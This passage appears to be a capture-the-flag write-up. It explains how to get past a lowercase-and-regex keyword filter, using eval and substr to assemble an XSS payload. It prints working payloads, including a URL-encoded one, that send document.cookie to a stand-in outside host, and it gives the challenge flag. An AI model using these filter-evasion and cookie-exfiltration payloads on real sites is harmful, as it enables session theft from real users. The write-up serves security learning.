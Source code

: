 - We can't use capital letters due to the `.toLowerCase().trim()` on the input of the function.
- The regex `/[^\p{L}]+/u` means any amount of any non-unicode letter, splitting by this means we can't use alternatives to characters outside of the usual unicode letterspace, they are all spaces.
- The `isMatch` then checks for and regex pattern with that string ignoring case and being unicode-aware.
- `some()` returns if ANY are found of any amount

This made avoiding the string collisions challenging, but the workaround we found utilised `.substr()`.

We were able to wrap a built string in `eval()` to achieve the XSS exfiltration:

```js
<input onfocusin="eval('fetcha'.substr(0,5)+'(\''+'httpa'.substr(0,4)+'://exam'+'.pla'.substr(0,2)+'eex.'+'coma'.substr(0,3)+'/?yeet='+btoa(document.cookie)+'\')')" autofocus>
```

This works for local (sometimes) but because the cookie is set after we can't rely on this for remote, we want to write a script that wait's for cookies to exist (or delays) then grabs the cookies.

We had two solutions for this challenge (but I will outline some more at the end for learning).

```js
"set" +
eval("'\\xa".substr(0, 3) + "54" + "'") +
"imeout(function(){" +
"fetcha".substr(0, 5) +
"('" +
"httpa".substr(0, 4) +
"://example" +
".pla".substr(0, 2) +
"eex." +
"coma".substr(0, 3) +
"/?yeet='+btoa(document.cookie))},2000)";
```

As caps were blocked, we needed to use an eval inside the eval to create a capital letter to build the `setTimeout` function name, that's what `eval('\'\\xa'.substr(0,3) + '54' + '\'')` is for. This builds `\x54` which results in `T`.

In a readable format we get:
```js
setTimeout(function(){fetch('http://example.peex.com/?yeet='+btoa(document.cookie))},2000)"
```

The final payload URL that we report is:
```
http://localhost/?q=%3Cinput%20onfocusin%3D%22eval%28set%22%20%2Beval%28%22%27%5C%5Cxa%22%2Esubstr%280%2C%203%29%20%2B%20%2254%22%20%2B%20%22%27%22%29%20%2B%22imeout%28function%28%29%7B%22%20%2B%22fetcha%22%2Esubstr%280%2C%205%29%20%2B%22%28%27%22%20%2B%22httpa%22%2Esubstr%280%2C%204%29%20%2B%22%3A%2F%2Fexample%22%20%2B%22%2Epla%22%2Esubstr%280%2C%202%29%20%2B%22eex%2E%22%20%2B%22coma%22%2Esubstr%280%2C%203%29%20%2B%22%2F%3Fyeet%3D%27%2Bbtoa%28document%2Ecookie%29%29%7D%2C2000%29%29%22%3B%20autofocus%3E
```

This worked to grab the cookies from the remote, resulting in the flag:

Flag: `PWNME{D1d_y5U_S4iD-F1lt33Rs?}`
